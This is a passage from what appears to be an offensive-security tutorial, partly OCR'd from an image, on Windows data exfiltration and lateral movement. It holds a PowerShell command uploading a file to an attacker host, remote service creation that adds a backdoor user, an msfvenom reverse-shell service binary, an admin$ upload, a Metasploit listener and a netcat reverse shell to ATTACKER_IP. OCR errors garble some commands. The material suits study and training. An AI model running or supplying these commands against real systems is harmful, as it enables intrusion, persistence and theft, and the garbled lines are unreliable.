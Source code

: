 ```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager] ::ServerCertificateValidationCallback
{$true); $server="""http://ATTACKER-IP/upload-path""";$filepath="""C:\rnaster.zip""";$http= new=object System.Net.WebClient;
$response=$http.UploadFile($server,$filepath);"
```

### Lateral Movement

Pivoting is discovering other networks or hosts that were not visible before compromising the system. An example would be an attacker compromising a webserver and then scanning the network again from within the webserver machine to discover other subnets and hosts to pivot into.

Lateral movement in windows or pivoting is best achieved with two protocols: 1- RPC (Remote Procedure Call) Ports 135 and 49152 by creating services. Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards. We can create and start a service named "HACK" using the following commands

```
sc.exe \\TARGET create HACK binPath= "net user hacker hackerpass /add" start= auto

sc.exe \\TARGET start HACK
```

The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output. Alternatively you can create a service binary payload with Msfvenom

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

Then we can use `smbclient` to upload this service binary to the other target's admin share

```
smbclient -c 'put myservice.exe' -U username -W cn '//target2.cn.example.com/admin$/' password
```

Make sure our listener is running in Metasploit

```
user@AttackBox$ msfconsole msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set LHOST ip 
msf6 exploit(multi/handler) > set LPORT 4444 msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp 
msf6 exploit(multi/handler) > exploit
```

Then  we can use runas to spawn a second reverse shell

```
C:\> runas /netonly /user:domain\username "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

And it should be received on your listener
